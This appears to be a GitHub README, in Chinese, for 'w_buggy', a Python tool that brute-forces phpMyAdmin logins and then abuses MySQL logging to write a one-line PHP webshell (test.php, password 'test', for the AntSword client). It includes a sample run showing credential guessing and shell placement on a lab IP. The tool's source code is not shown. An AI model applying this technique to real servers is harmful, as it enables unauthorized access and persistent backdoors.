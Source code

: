 # w_buggy
phpmyadmin密码爆破并利用mysql日志写一句话shell  
#
w_buggy名称由来,小丑 巴基 (バギー Bagī?, Buggy) 是巴基海贼团船长。四分五裂果实的能力者，四分五裂人，身体可以分裂，操控各个部分飞向敌人攻击，斩击对其无效。使用武器为八把水果刀。 有着一个大红鼻子跟屁股，外形像小丑，他很忌讳别人谈及他的鼻子，也因为如此常常发狂及伤及无辜。口头禅是“ハデに -”，出海的梦想是得到世间的财宝并成为海贼王。  
![](buggy.jpg)
```text
像个二逼似的
```

w_buggy_asynchronous.py 异步版本  
w_buggy_synchronize.py 异步版本
# 
#### 支持phpmyadmin版本
Version 3.5.8.2  
虚拟机里的环境动不动就死了。。。,协程控制到2个任务,慢的蜗牛一样
#### 运行环境
linux, >=python3.7

#### 一句话木马路径
当前默认为www目录下的test.php,密码默认为test,使用蚁剑连接
#### 运行
```shell script
(venv) [root@localhost w_buggy]# python w_buggy_asynchronous.py http://192.168.52.143 -t 2
开始扫描时间2021-01-22 20:02:22
登录成功:用户名为root,密码为root
日志开关已打开
日志路径设置成功
开始写入一句话木马
一句话木马路径: http://192.168.52.143/test.php,密码test,请使用蚁剑连接
扫描完成时间2021-01-22 20:02:28, 扫描耗时:0分钟
```
#
![](gzh.jpg)
